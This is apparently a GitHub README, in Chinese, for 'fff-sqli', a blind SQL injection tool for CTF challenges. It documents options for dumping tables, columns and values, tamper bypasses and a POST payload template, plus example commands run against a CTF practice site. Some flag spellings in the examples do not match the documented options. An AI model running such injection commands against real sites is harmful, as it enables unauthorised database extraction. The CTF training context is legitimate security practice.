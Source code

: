# fff-sqli
A tool for CTF's bind-sqli challenge

CTF的盲注总是要重新修改脚本，不胜其烦。于是写了这个工具，在Kali上测试通过。参数作以下几点说明

## 参数说明

-  -u参数是地址
- --tales 1 获取当前数据库所有表名
- --columns flag 获取flag表的所有列名
- -T user -C password 获取user表password列的值
- --headers 自定义请求头
- --data 以POST方式提交时候，所POST的数据,加星号* 表示payload的位置 如 username=admin'||*&password=admin
- -v 1 输出payload
- --sub 1 sub参数表示对截取字符串的函数进行选择，内置四种
- --tamper 调用tamper文件里bypass脚本，调用其tamper函数对payload进行处理
- --way 1 默认0，为1时采用二分法进行盲注
- --prefix --suffix对payload进行拼接
- --keywords 判断 true和false的关键词
- --proxy 自定义代理
- --cookie 自定义cookie

## 使用示例

注入站点：http://ctf5.shiyanbar.com/web/index_3.php

keywords: Hello

Usage: 
```
Usage : 
        python fffsqli.py [URL] [DATA] [KEYWORDS] ...
Example : 
        python fffsqi.py -u "http://127.0.0.1/?id=1" --keywords "key" --tables 1
Author : 
        Deen <1123537671@qq.com>
```

获取表名：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" --tables 1 --way 1`

获取列名：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" --columns flag --way 1`

获取数据：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" -T flag -C flag --way 1`

## 截图展示


![](https://github.com/deenrookie/fff-sqli/blob/master/images/2017-11-23-185739_791x552_scrot.png)
![](https://github.com/deenrookie/fff-sqli/blob/master/images/2017-11-23-190223_792x546_scrot.png)

